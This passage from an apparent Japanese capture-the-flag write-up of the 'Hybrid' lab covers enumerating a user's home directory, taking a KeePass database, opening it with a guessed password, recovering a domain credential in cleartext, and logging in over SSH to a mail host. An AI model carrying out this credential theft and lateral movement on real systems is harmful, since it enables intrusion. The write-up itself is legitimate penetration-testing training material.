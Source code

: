 `/home/peter.turner@hybrid.vl`にアクセスする
```
bash-5.1$ ls -la /home/peter.turner@hybrid.vl
ls -la /home/peter.turner@hybrid.vl
total 36
drwx------ 4 peter.turner@hybrid.vl domain users@hybrid.vl 4096 Jun 18  2023 .
drwxr-xr-x 3 root                   root                   4096 Jun 17  2023 ..
lrwxrwxrwx 1 peter.turner@hybrid.vl domain users@hybrid.vl    9 Jun 17  2023 .bash_history -> /dev/null
-rw------- 1 peter.turner@hybrid.vl domain users@hybrid.vl  220 Jun 17  2023 .bash_logout
-rw------- 1 peter.turner@hybrid.vl domain users@hybrid.vl 3771 Jun 17  2023 .bashrc
drwx------ 2 peter.turner@hybrid.vl domain users@hybrid.vl 4096 Jun 17  2023 .cache
lrwxrwxrwx 1 peter.turner@hybrid.vl domain users@hybrid.vl    9 Jun 18  2023 .kpcli-history -> /dev/null
drwxr-xr-x 3 peter.turner@hybrid.vl domain users@hybrid.vl 4096 Jun 17  2023 .local
-rw------- 1 peter.turner@hybrid.vl domain users@hybrid.vl  807 Jun 17  2023 .profile
-rw-r--r-- 1 peter.turner@hybrid.vl domain users@hybrid.vl   37 Jun 17  2023 flag.txt
-rw-r--r-- 1 peter.turner@hybrid.vl domain users@hybrid.vl 1678 Jun 18  2023 passwords.kdbx
```
flag.txtを見つけた！！あと、passwords.kdbxがかなり気になる
「kdbx : KeePassなどのパスワードマネージャーで使用される暗号化されたデータベースファイル形式の拡張子」なので、攻撃者の方に送信してみる

パスワードを求められるので、「PeterIstToll!」を試すと、開くことができた
![](https://i.imgur.com/BYt0m0k.png)
hybrid.vl以外には、特になにも情報がなく、hybrid.vl内のmailのパスワードは「PeterIstToll!」だが、domainで新しい認証情報を見つけた

### peter.turnerのドメインの認証情報
peter.turner : b0cwR+G4Dzl_rw

### SSHログイン
mail01に対して、peter.turner@hybrid.vlアカウントでログインできた
```sh
┌──(kali㉿kali)-[~/Desktop/Vulnhub/Hybrid/10.10.233.118]
└─$ ssh peter.turner@hybrid.vl@10.10.206.38
(peter.turner@hybrid.vl@10.10.206.38) Password: 
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-75-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu Oct 16 03:05:48 AM UTC 2025

  System load:  0.0               Processes:             144
  Usage of /:   65.1% of 6.06GB   Users logged in:       0
  Memory usage: 31%               IPv4 address for ens5: 10.10.206.38
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

3 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
```
